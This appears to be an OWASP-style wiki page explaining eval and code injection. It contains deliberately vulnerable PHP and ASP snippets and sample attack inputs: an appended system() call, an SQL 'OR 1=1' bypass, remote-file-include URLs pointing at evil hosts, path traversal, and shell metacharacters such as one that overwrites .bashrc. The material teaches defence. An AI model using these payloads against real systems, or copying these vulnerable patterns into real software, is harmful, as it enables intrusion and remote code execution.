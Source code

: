 ```yaml
---

layout: col-sidebar
title: Direct Dynamic Code Evaluation - Eval Injection
author: 
contributors:
permalink: /attacks/Direct_Dynamic_Code_Evaluation_Eval Injection
tags: attack, direct dynamic code evaluation, eval injection
auto-migrated: 1

---
```


{% include writers.html %}

## Description
This attack consists of a script that does not properly validate user inputs in the page parameter. A remote user can supply a specially crafted URL to pass arbitrary code to an eval() statement, which results in code execution.

Note 1: This attack will execute the code with the same permission like the target web service, including operation system commands.

Note 2: Eval injection is prevalent in handler/dispatch procedures that might want to invoke a large number of functions, or set a large number of variables.

Risk Factors
TBD

Examples
Example 1
In this example an attacker can control all or part of an input string that is fed into an eval() function call

  $myvar = "varname"; 
  $x = $_GET['arg']; 
  eval("\$myvar = \$x;"); 
The argument of "eval" will be processed as PHP, so additional commands can be appended. For example, if "arg" is set to "10 ; system(\"/bin/echo uh-oh\");", additional code is run which executes a program on the server, in this case "/bin/echo".

Example 2
The following is an example of SQL Injection. Consider a web page which has two fields to allow users to enter a Username and a Password. The code behind the page will generate a SQL query to check the Password against the list of Usernames:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password'
If this query returns exactly one row, then access is granted. However, if a malicious user enters a valid Username and injects some valid code ("' OR 1=1") in the Password field, then the resulting query will look like this:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password' OR '1'='1'
In the example above, "Password" is assumed to be blank or some innocuous string. "1=1" will always be true and many rows will be returned, thereby allowing access. The final inverted comma will be ignored by the SQL parser. The technique may be refined to allow multiple statements to run, or even to load up and run external programs.

Example 3
This is an example of a file that was injected. Consider this PHP program (which includes a file specified by request):

<?php
   $color = 'blue';
   if ( isset( $_GET['COLOR'] ) )
      $color = $_GET['COLOR'];
   require( $color . '.php' );
?>
<form>
   <select name="COLOR">
      <option value="red">red</option>
      <option value="blue">blue</option>
   </select>
   <input type="submit">
</form>

The developer thought this would ensure that only blue.php and red.php could be loaded. But as anyone can easily insert arbitrary values in COLOR, it is possible to inject code from files:

/vulnerable.php?COLOR=http://evil/exploit - injects a remotely hosted file containing an exploit.
/vulnerable.php?COLOR=C:\ftp\upload\exploit - injects an uploaded file containing an exploit.
/vulnerable.php?COLOR=..\..\..\..\ftp\upload\exploit - injects an uploaded file containing an exploit, using Path Traversal.
/vulnerable.php?COLOR=C:\notes.txt%00 - example using Null character, Meta character to remove the .php suffix, allowing access to other files than .php. (PHP setting "magic_quotes_gpc = On", which is default, would stop this attack)
Example 4
A simple URL which demonstrates a way to do this attack:

 http://some-page/any-dir/index.php?page=<?include($s);?>&s=http://malicious-page/cmd.txt?  
Example 5
Shell Injection applies to most systems which allow software to programmatically execute a Command line. Typical sources of Shell Injection are calls system(), StartProcess(), java.lang.Runtime.exec() and similar APIs.

Consider the following short PHP program, which runs an external program called funnytext to replace a word the user sent with some other word.

<HTML>
<?php
passthru ( " /home/user/phpguru/funnytext " 
           . $_GET['USER_INPUT'] );
?>
This program can be injected in multiple ways:

`command` will execute command.
$(command) will execute command.
; command will execute command, and output result of command.
| command will execute command, and output result of command.
&& command will execute command, and output result of command.
|| command will execute command, and output result of command.
> /home/user/phpguru/.bashrc will overwrite file .bashrc.
< /home/user/phpguru/.bashrc will send file .bashrc as input to funnytext.
PHP offers escapeshellarg() and escapeshellcmd() to perform encoding before calling methods. However, it is not recommended to trust these methods to be secure - also validate/sanitize input.

Example 6
The following code is vulnerable to eval() injection, because it don’t sanitize the user’s input (in this case: “username”). The program just saves this input in a txt file, and then the server will execute this file without any validation. In this case the user is able to insert a command instead of a username.

Example:

<%
	If not isEmpty(Request( "username" ) ) Then
		Const ForReading = 1, ForWriting = 2, ForAppending = 8
		Dim fso, f
		Set fso = CreateObject("Scripting.FileSystemObject")
		Set f = fso.OpenTextFile(Server.MapPath( "userlog.txt" ), ForAppending, True)
		f.Write Request("username") & vbCrLf
		f.close
		Set f = nothing
		Set fso = Nothing
		%>
		<h1>List of logged users:</h1>
		<pre>
		<%
			Server.Execute( "userlog.txt" )
		%>
		</pre>
		<%
	Else
		%>
		<form>
			<input name="username" /><input type="submit" name="submit" />
		</form>
		<%
	End If
%>
Related Threat Agents
Internal software developer
Related Attacks
Direct Static Code Injection
Code Injection
Injection Attacks
Related Vulnerabilities
Category:Input Validation Vulnerability
Related Controls
Category:Input Validation
References
http://secunia.com/cve_reference/CVE-2006-2005/?show_result=1
http://en.wikipedia.org/wiki/Code_injection